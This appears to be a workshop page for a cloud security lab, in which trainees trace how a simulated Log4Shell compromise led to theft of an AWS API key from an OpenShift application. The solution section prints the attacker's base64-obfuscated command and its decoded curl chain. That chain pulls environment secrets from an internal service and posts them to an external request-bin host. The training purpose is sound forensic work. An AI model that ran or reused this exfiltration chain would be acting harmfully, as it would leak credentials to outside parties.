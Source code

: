 ```yaml
---
title: "Attack Flow Analysis"
draft: false
weight: 3
---
```


It’s December 19, 2021 (yes, you read that right, two years earlier, to the day).

The AWS Cloud Team is alerting you that an AWS API key has been compromised and used to deploy crypto mining software.
Fortunately, your company prohibits the reuse of API keys for several uses: you are therefore certain of the origin of this data leak: it is the **visa-processor** application which uses this key. API.

```
$ oc rsh -n data-theft deploy/visa-processor /bin/sh -c 'env' | fate | grep ^A
APP_ID=visa-processor
APP_ROOT=/opt/app-root
AWS_ACCESS_KEY_ID=Easy, peasy!
AWS_SECRET_ACCESS_KEY=Catch me if you can!
```

**Note**: AWS API keys were redacted in the lab to avoid an unnecessary heart attack for **Red Hat** security teams. They were replaced by two humorous messages. :)

At the same time, the network team warns you of the presence of an unusual outgoing flow destined for servers also hosted on AWS.

```
$ dig +short public.requestbin.com
54.192.137.16
54.192.137.101
54.192.137.26
54.192.137.85
```

```
$ whois 18.155.129.83 |grep OrgTechName
OrgTechName: Amazon EC2 Network Operations
```

Your mission, if you accept it, is to investigate the Lab environment in search of the path taken by the attacker to perpetrate this data exfiltration.
The objective is achieved when you find the URL of the **Request Bin** used by the attacker to exfiltrate the API key.

![Request Bin showing exfiltrated AWS API key](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-Request-Bin.png)

Up to you !

Clues:

- Start with the **Violations** section and filter the view with `deployment:visa-processor namespace:data-theft`
- Switch to the **Network Graph** section and display the flows of the cluster **local-cluster**, namespace **data-theft**. Click on the **information-service** and **back-office** deployments and compare their flows. Which one seems most suspicious to you?
- Return to the **Violations** section and filter the view with the name of the deployment that seems most suspicious to you.

{{%expand "Solution" %}}

Navigate to the **Violations** section and filter the view with `deployment:visa-processor namespace:data-theft`.

![visa-processor violations](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-visa-processor-violations.png)

We note the presence of CVE but nothing very suspicious.

Switch to the **Network Graph** section and view the flows from the cluster **local-cluster**, namespace **data-theft**.

Click on the **back office** deployment.

![back-office network graph](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-back-office-network-graph.png)

The observed flows appear legitimate.

Click on the **information-service** deployment.

![information-service network graph](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-network-graph.png)

Observe the inbound flow from the OpenShift router and the outbound flow to AWS.
Also note that the **information-service** deployment communicates with the **visa-processor** deployment.

Navigate to the **Violations** section and filter the view with `deployment:information-service namespace:data-theft`.

![information-services violations](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-violations.png)

Note the presence of the **Log4Shell** vulnerability as well as suspicious behavior at runtime: **Shell Spawned by Java Application**.

Click on the **Shell spawned by Java Application** violation.

![information-services violation Shell Spawned by Java Application](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-violation-shell-spawned.png)

Observe the command executed:

```
echo Y3VybCAtc2sgLWQgJ3tcIm51bWJlck9mSWRlbnRpdGllc1wiOjR9JyBodHRwOi8vdmlzYS1wcm9jZXNzb3IuZGF0YS10aGVmdC5zdmM6ODA4MC9nZXRBcHBsaWNhdGlvbklkZW50aXR5 IHwgY3VybCAtc2sgLS1kYXRhLWJpbmFyeSBALSAtSCAnQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluJyBodHRwczovL2VueWQxcnczcHd6M2EueC5waXBlZHJlYW0ubmV0Cg== | base64 -d | sh
```

Decode base64 encoded content (use the "base64 -d" command):

```
$ echo Y3VybCAtc2sgLWQgJ3tcIm51bWJlck9mSWRlbnRpdGllc1wiOjR9JyBodHRwOi8vdmlzYS1wcm9jZXNzb3IuZGF0YS10aGVmdC5zdmM6ODA4MC9nZXRBcHBsaWNhdGlvbklkZW50aXR 5IHwgY3VybCAtc2sgLS1kYXRhLWJpbmFyeSBALSAtSCAnQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluJyBodHRwczovL2VueWQxcnczcHd6M2EueC5waXBlZHJlYW0ubmV0Cg== | base64 -d

curl -sk -d '{\"numberOfIdentities\":4}' http://visa-processor.data-theft.svc:8080/getApplicationIdentity | curl -sk --data-binary @- -H 'Content-Type: text/plain' https://enyd1rw3pwz3a.x.pipedream.net
```

The first **curl** command exploits an application bug to retrieve the AWS API key.

Normally, the **visa-processor** component returns the value of its **APP_ID** environment variable:

```
$ curl -sk -X POST http://visa-processor.data-theft.svc:8080/getApplicationIdentity
{
    "APP_ID": "visa-processor"
}
```

But by passing an additional undocumented argument, we can retrieve the following environment variables (in alphabetical order):

```
$ curl -sk -d '{"numberOfIdentities":4}' http://visa-processor.data-theft.svc:8080/getApplicationIdentity

{
    "APP_ID": "visa-processor",
    "APP_ROOT": "/opt/app-root",
    "AWS_ACCESS_KEY_ID": "Easy, peasy!",
    "AWS_SECRET_ACCESS_KEY": "Catch me if you can!"
}
```

The second **curl** command exfiltrates data via the **Request Bin** service.
Connect to [https://enyd1rw3pwz3a.x.pipedream.net](https://enyd1rw3pwz3a.x.pipedream.net) and confirm that the exfiltrated data is present.

{{% /expand%}}
